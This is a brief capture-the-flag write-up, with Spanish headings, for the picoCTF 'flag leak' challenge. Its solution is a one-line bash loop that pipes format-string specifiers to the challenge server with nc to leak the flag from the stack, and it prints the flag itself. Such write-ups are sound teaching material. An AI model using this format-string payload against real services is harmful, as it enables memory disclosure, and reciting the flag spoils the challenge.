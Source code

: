 # flag leak

## Descripción
Story telling class 1/2 I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using: `nc saturn.picoctf.net 63351`

## Pistas
- Format Strings

## Solución
```bash
┌──(kali㉿kali)-[~]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 54864 ; done  
```

## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}


## Notas adicionales
None

## Referencias
None